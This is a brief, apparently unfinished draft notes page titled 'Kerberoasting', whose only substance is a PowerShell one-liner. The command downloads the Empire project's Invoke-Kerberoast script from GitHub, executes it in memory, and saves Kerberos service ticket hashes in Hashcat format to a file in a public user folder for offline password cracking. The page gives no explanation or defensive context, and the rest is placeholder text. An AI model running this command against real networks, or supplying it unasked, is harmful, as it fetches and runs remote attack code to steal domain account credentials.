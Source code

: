 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

asdas

#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```
